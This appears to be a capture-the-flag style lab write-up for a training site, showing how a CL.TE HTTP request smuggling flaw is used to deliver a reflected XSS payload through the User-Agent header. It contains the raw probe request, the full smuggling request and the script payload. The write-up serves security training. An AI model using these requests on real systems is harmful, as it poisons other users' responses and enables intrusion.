 # Exploiting HTTP request smuggling to deliver reflected XSS
# Objective
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

The application is also vulnerable to reflected XSS via the `User-Agent` header.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to receive a response containing an XSS exploit that executes `alert(1)`.

# Solution
## Analysis

### Confirming XSS vulnerability
Payload:
```
User-Agent: "/><script>alert(1)</script>
```

|![](Images/image-51.png)|
|:--:| 
| *User-Agent header is sent in hidden field while making comment* |
|![](Images/image-52.png)|
| *Successful reflected XSS* |


###  Determining what the front-end and back-end is using
`Time out` confirms `CL.TE` vulnerability.

```
POST / HTTP/1.1
Host: 0aa2004303e692b382763875004a00e9.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
nap
X
```

|![](Images/image-50.png)|
|:--:| 
| *Front-end is using CL* |
| *Back-end is using TE* |

## Exploitation
First request poisoned the back-end. Second (the same request) was added to the end of the previous request - the `GET <sth> HTTP/1.1` was ignored thanks to `Foo` header and smuggled request was executed.

```
POST / HTTP/1.1
Host: 0aa2004303e692b382763875004a00e9.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 82
Transfer-Encoding: chunked

0

GET /post?postId=8 HTTP/1.1
User-Agent: "/><script>alert(1)</script>
Foo: x
```

|![](Images/image-53.png)|
|:--:| 
| *Request was smuggled successfuly - XSS was smuggled* |


